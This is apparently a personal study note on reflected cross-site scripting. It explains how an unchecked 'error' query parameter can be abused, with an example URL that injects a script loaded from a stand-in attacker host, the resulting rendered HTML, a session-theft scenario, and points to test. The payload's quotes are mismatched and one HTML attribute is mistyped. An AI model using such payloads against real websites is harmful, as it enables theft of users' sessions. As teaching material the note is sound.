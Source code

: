 ```yaml
---
title: Reflected XSS
---
```

_Reflected_ [[cybersecurity/knowledge/pentesting/XSS]] happens when user-supplied data in an HTTP request is included in the webpage source without any validation, e.g.

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the `error` parameter in the query string.

```
https://website.thm/?error=Invalid input Detected
```

If the application doesn't check the contents of the error parameters, we could insert malicious code:

```
https://website.thm/?error=<script src="https://attacker.thm/evil.js'></script>
```

This would get rendered as

```html
<div class-"alert alert-danger">
	<p>
		<script src="https://attacker.thm/evil.js"></script>
	</p>
</div>
```

## Example scenario

1. Attacker sends a link with malicious [[cybersecurity/knowledge/glossary/payload]] to a victim
2. Victim clicks the link and is taken to a vulnerable site
3. Link containing attacker's script is executed on website
4. The gathered data (e.g. stolen session) is sent back to the attacker

The attacker could send links or embed them into an `iframe` to execute code on the victim browser, potentially revealing sensitive information.

## How to test for Reflected XSS

Manually test every possible point of entry, including:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected.